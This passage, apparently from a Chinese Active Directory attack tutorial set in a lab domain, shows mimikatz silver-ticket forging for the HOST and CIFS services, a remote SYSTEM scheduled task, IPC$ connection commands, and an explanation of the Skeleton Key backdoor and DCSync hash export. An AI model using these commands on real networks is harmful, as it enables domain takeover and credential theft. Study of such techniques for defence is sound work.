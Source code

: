 ```powershell
kerberos::golden /user:test /domain:main.com /sid:S-1-5-21-2214894582-1205818508-3793940241 /target:dc.main.com /rc4:e72477885554476fbc116b63a21f36e2 /service:host /ptt
```

然后就可以创建计划任务：

```powershell
schtasks /create /S dc.main.com /tn "task1" /RU "system" /sc weekly /tr "c:\windows\system32\calc.exe"
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516134921.png)



## 6.2 伪造CIFS服务权限

```powershell
kerberos::golden /user:test /domain:main.com /sid:S-1-5-21-2214894582-1205818508-3793940241 /target:dc.main.com /rc4:e72477885554476fbc116b63a21f36e2 /service:CIFS /ptt
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516140940.png)



同理，获取 HTTP / Wsman服务以后，可以获得目标系统上的`WinRM`和`Powershell`远程管理的权限。

在注入ldap服务票据后，可以获得目标系统上LDAP服务的管理权限，进而可以利用dcsync远程导出域控上的hash

## 7. Skeleton Key/万能密码

> Skeleton Key 被安装在 64 位的域控服务器上 支持 Windows Server2003 — Windows Server2012 R2 能够让所有域用户使用同一个万能密码进行登录 现有的所有域用户使用原密码仍能继续登录 重启后失效

使用 Skeleton Key 攻击时，NTLM、Kerberos 两种身份验证方法都会被篡改。 例如，在NTLM身份验证期间，已注入 LSASS 进程中的主密码哈希将不会与SAM数据库进行比较，而将与 Skeleton Key 哈希进行比较，因此，身份验证将成功。

Kerberos 加密也将降级为不支持 Salt（RC4_HMAC_MD5）的算法，并且从活动目录中检索到的哈希将替换为 Skeleton Key 哈希。 因此，主密码的哈希值将始终在服务器端进行验证，并且两种方法的身份验证都将成功。



> IPC$(Internet Process Connection) 是共享 " 命名管道 " 的资源，它是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，连接双方可以建立安全的通道并以此通道进行加密数据的交换，从而实现对远程计算机的访问。

以下是环境：

| 操作系统     | 角色   | 域名     | 用户名 |
| ------------ | ------ | -------- | ------ |
| Wins2012R2   | DC     | main.com | 12451  |
| windows 2008 | Client | main.com | test   |

```powershell
# 添加
net use \\DC\IPC$  "密码" /user:test\administrator
# 将之前建立的IPC$链接删除      
net use  \\dc\ipc$ /del /y 
# 查看现有的IPC$链接
net use  
```
